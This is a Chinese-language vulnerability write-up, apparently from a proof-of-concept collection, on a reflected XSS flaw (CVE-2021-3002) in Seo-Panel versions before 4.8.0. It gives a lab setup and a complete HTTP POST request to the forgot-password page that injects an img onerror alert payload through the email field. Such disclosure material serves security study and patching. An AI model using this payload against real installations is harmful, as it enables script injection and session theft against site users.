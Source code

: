 # 

# Seo-Panel 4.8.0 反射型XSS漏洞 CVE-2021-3002

## 漏洞描述

*Seo Panel*是一个网站搜索引擎优化管理的完整控制面板。它包含了多个SEO工具来增加和跟踪你的网站性能

Seo-Panel 4.8.0以下版本存在过滤不完全的情况，造成存在 反射型XSS漏洞

## 漏洞影响

```
Seo-Panel  Version < 4.8.0
```

## 环境搭建

https://github.com/seopanel/Seo-Panel

下载后放入网站根目录根据提示安装访问即可

![](./images/202202101924919.png)

## 漏洞复现

漏洞出现在找回密码页面 [**http://xxx.xxx.xxx.xxx/login.php?sec=forgot**](http://xxx.xxx.xxx.xxx/login.php?sec=forgot)

![](./images/202202101924473.png)



成功弹窗 ,造成 反射型XSS 漏洞



## 漏洞POC



请求包如下



```javascript
POST /login.php?sec=forgot HTTP/1.1
Host: 192.168.51.133
Content-Length: 118
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Origin: http://192.168.51.133
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.51.133/login.php?sec=forgot
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=i0qk20ehq89b29ct8krpv76vn3; yzmphp_adminid=33d5DywYQIUGS13SI7x4I0y7JiCacraGcDU1uoBx; yzmphp_adminname=1fc8yAdCyAogZ-PIz4c66dU1ij0mHsG7KGF_5tToVThEzbc
Connection: close

sec=requestpass&email=peiqi%40peiqi.com%22%3E%3Cimg+src%3Da+onerror%3Dalert%28%22peiqi%22%29%3Egcuak&code=12345&login=
```
